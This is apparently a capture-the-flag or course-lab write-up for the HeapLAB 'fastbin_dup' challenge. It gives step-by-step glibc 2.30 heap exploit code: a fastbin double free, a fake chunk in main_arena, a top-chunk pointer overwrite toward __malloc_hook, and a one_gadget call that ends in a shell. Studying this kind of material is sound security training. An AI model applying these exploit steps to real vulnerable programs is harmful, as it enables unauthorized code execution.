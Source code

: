 ## Attacking fastbin and avoid 0x70 protection
*****************************************
### First Fastbin

1.- Write fake size
```
malloc(24,p64(0x61))
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen1.png)

2.- Write fake size in main arena
```
malloc(24,'C'*48)
malloc(24,'D'*48)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen2.png)

### Second Fastbin for link fake chunk in fastbins list

3.-Fastbin
```
chunk_J=malloc(0X58,'C'*48)
chunk_K=malloc(0x58,'D'*48)
free(chunk_J)
free(chunk_K)
free(chunk_J)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen3.png)

4.- So now we can write what we want to link
```
malloc(0x58, p64( libc.sym.main_arena + 0x20 ))
```

![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen4.png)

5.- Move fake chunk to the fastbins and put it on the head of 0x60 fastbins
```
malloc(0x58,b'L'*8)
malloc(0x58,b'M'*8)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen5.png)

6.- Write in main arena...

To write 0x61 in the main arena and match with 0x60 fastbin we allocate 0x48 bytes instead of 0x24 and we'll have the target in 0x60 fastbins and in main arena we will see the fake chunk crafted with size field and foreword pointer.

![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen6.png)

Requests a chunk of 0x60 size to write in the main arena but before libc will check that the size field of fake chunk is in the range allowed for 0x60 fastbins, thats why we write the 0x61, if we request other 0x60 chunk will give us our fake chunk and we can write in main_arena.

```
malloc(0x58,b'N'*8)
```


![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen7.png)


7.- Overwrite top chunk pointer with malloc_hook

The offset of top chunk is 48 bytes...

![imagen9.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen9.png)

```
malloc(0x58,b'Y'*48+p64(libc.sym.__malloc_hook -16))
```

![imagen10.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen10.png)

Okey, so if we request a chunk that is not in fastbins malloc will return us a chunk from top chunk.

![imagen11.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen11.png)

8.- Bypass top chunk mitigation

We are using glibc 2.30 for this challange and size version 2.29 top chunk mitigation was added

```
pwndbg> backtrace
pwndbg> f 4
pwndbg> context code
```

![imagen12.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen12.png)

```
pwndbg>p/x av->system_mem
$1 = 0x21000
```

We can go a little further back and take advantage of the alignment that is not checked...

![imagen13.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen13.png)

Great, this size is a size allowed, if request a chunk ...

```
malloc(0x28,b'Y'*19+p64(0xdeadbeef))
malloc(0x28,b'')
```

![imagen14.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen14.png)

9.- One gadget

```
malloc(0x28,b'Y'*19+p64(libc.address + 0xe1fa1))
malloc(0x28,b'')
```

![imagen15.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen15.png)

Is taking 'LLLLLLLLDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD' as parameter and the execution fails, but it is something we control, maybe if we pass other argument

![imagen16.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen16.png)

Let's change the line: 'malloc(0x58,b'L'*8)' to 'malloc(0x58,b'-s\0')'

![imagen17.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen17.png)

and shell!

## References

Max Kamper, Linux Heap Exploitation - Part 1, Udemy 4(9-11)